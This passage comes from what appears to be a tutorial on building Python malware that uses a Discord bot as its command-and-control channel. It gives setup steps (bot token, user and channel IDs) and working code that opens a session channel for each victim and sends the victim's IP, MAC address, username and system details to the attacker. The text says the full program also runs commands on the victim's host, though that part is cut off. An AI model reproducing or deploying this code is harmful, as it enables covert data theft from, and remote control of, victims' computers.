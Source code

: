 Follow any remaining steps and the bot will join that channel.
![](image-10.png)

# Creating a Malware

The malware here should act as an "agent" for the Discord Channel. For this post purposes, i will create a simple malware in python as a POC. The malware is capable of stealing general information such as network information, victim's host information and executing commands on victim's host.


Whats necessary in your code should be the bot's token, your discord user id and the channel id.

Where to find?
- Bot's Token - On Discord Developer Portal
- User ID - Right click your user > Copy User ID
- Channel ID - Right click your channel > Copy Server ID

```py
import discord
import os
import subprocess
import requests

TOKEN = 'your-token-here'

AUTHORIZED_USERS = [your-discord-user-id-here-123]

guild_id = channel-id-123
session_id = os.urandom(8).hex()

intents = discord.Intents.default()
intents.messages = True
intents.message_content = True

client = discord.Client(intents=intents)    

@client.event
async def on_ready():
    guild = client.get_guild(int(guild_id))
    channel = await guild.create_text_channel(session_id)
    ip_address = requests.get("https://api.ipify.org").text
    embed = discord.Embed(title="New session created", description="", color=0xfafafa)
    embed.add_field(name="Session ID", value=f"```{session_id}```", inline=True)
    embed.add_field(name="Username", value=f"```{os.getenv('USER')}```", inline=True)
    embed.add_field(name="🛰️  Network Information", value=f"```IP: {ip_address}```", inline=False)
    embed.add_field(name="🛰️  Network Information", value=f"```MAC: {get_mac_address()}```", inline=False)

    sys_info = "\n".join([
        f"OS: {get_os()}",
        f"CPU: {get_processor()}",
        f"GPU: {get_gpu()}"
    ])
    embed.add_field(name="🖥️  System Information", value=f"```{sys_info}```", inline=False)
```